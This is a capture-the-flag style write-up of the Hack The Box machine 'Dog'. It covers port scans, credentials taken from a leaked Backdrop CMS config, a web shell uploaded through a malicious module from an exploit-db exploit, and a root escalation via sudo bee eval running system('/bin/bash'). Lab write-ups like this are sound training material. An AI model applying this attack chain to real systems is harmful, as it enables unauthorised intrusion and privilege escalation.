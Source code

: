 ## Enumeration

```
nmap -sVC 10.10.11.58             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:37 +0545
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up (0.21s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE    SERVICE            VERSION
22/tcp    open     ssh                OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp    open     http               Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
2119/tcp  filtered gsigatekeeper
2605/tcp  filtered bgpd
2909/tcp  filtered funk-dialout
5214/tcp  filtered unknown
5225/tcp  filtered hp-server
6881/tcp  filtered bittorrent-tracker
31337/tcp filtered Elite
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.50 seconds
```

```
rustscan -a 10.10.11.58             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.58:22
Open 10.10.11.58:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:38 +0545
Initiating Ping Scan at 11:38
Scanning 10.10.11.58 [4 ports]
Completed Ping Scan at 11:38, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:38
Completed Parallel DNS resolution of 1 host. at 11:38, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:38
Scanning 10.10.11.58 (10.10.11.58) [2 ports]
Discovered open port 22/tcp on 10.10.11.58
Discovered open port 80/tcp on 10.10.11.58
Completed SYN Stealth Scan at 11:38, 0.34s elapsed (2 total ports)
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2025-03-09 11:38:21 +0545 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

![](Pasted%20image%2020250309114042.png)

Contents of robots.txt.
```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
#
# For syntax checking, see:
# http://www.robotstxt.org/checker.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.md
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin
Disallow: /comment/reply
Disallow: /filter/tips
Disallow: /node/add
Disallow: /search
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
# Paths (no clean URLs)
Disallow: /?q=admin
Disallow: /?q=comment/reply
Disallow: /?q=filter/tips
Disallow: /?q=node/add
Disallow: /?q=search
Disallow: /?q=user/password
Disallow: /?q=user/register
Disallow: /?q=user/login
Disallow: /?q=user/logout
```

And lots of things in directory busting.
![](Pasted%20image%2020250309121509.png)

And the directories and queries from robots.txt in not valid.

```
admin/config/development/configuration/sync
```

![](Pasted%20image%2020250309122744.png)

`BackDropJ2024DS2024`

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

```


And can find email.
`0-8204779c764abd4c9d8d95038b6d22b6a7515afa/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json`
![](Pasted%20image%2020250309140603.png)

And we logged in.
![](Pasted%20image%2020250309140657.png)

```
tiffany@dog.htb
BackDropJ2024DS2024
```

## Exploit

![](Pasted%20image%2020250309144948.png)
![](Pasted%20image%2020250309145207.png)

Now,
![](Pasted%20image%2020250309153823.png)

And we need to create a shell.tar.gz.

[exploit](https://www.exploit-db.com/exploits/52021)

It will create a shell directory.
We need to do.
`tar -czvf shell.tar.gz shell/`

And upload this tar.gz file in the thing uploading module.
![](Pasted%20image%2020250309154248.png)

And now after doing that we need to load that.
![](Pasted%20image%2020250309154328.png)

and visit what exploit saying or `/modules/shell/shell.php`

And we will see this.
![](Pasted%20image%2020250309154145.png)

And now we can use python3 reverse shell to get stable shell.
![](Pasted%20image%2020250309154500.png)

## Privelege Escalation

Lets enumerate.
Now we can login to mysql server.
But it was a rabbithole.
![](Pasted%20image%2020250309154948.png)
![](Pasted%20image%2020250309155414.png)

`hashcat -m 7900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force`

Nothing here and we cant even crack the password of user.

And amazingly, we can use same password from before for user `johncusack`.
![](Pasted%20image%2020250309161007.png)

And now doing `sudo -l` revealed this.
![](Pasted%20image%2020250309162543.png)

And doing this came this.
![](Pasted%20image%2020250309162621.png)

So its a command to manage that backdrop cms.
But we have root priveleges.
And we can see it can use eval function of php.
![](Pasted%20image%2020250309162757.png)

So Now we can try to do privelege escalate using eval.

Lets try.
![](Pasted%20image%2020250309163256.png)

Hmm and after doing some talk with chatGPT,if we specify the `root directory of the Backdrop installation to use`,we could do so.
`sudo -u root /usr/local/bin/bee --root=/var/www/html eval 'system(whoami)'
`
![](Pasted%20image%2020250309163814.png)
I guess it worked.

Lets try.
We have to also write commands inside quotations. 
![](Pasted%20image%2020250309163909.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash");'

```

and we got the root.
![](Pasted%20image%2020250309164104.png)

## Done

And done.
![](Pasted%20image%2020250309164152.png)

Again lots of things learned.
I hope you enjoyed.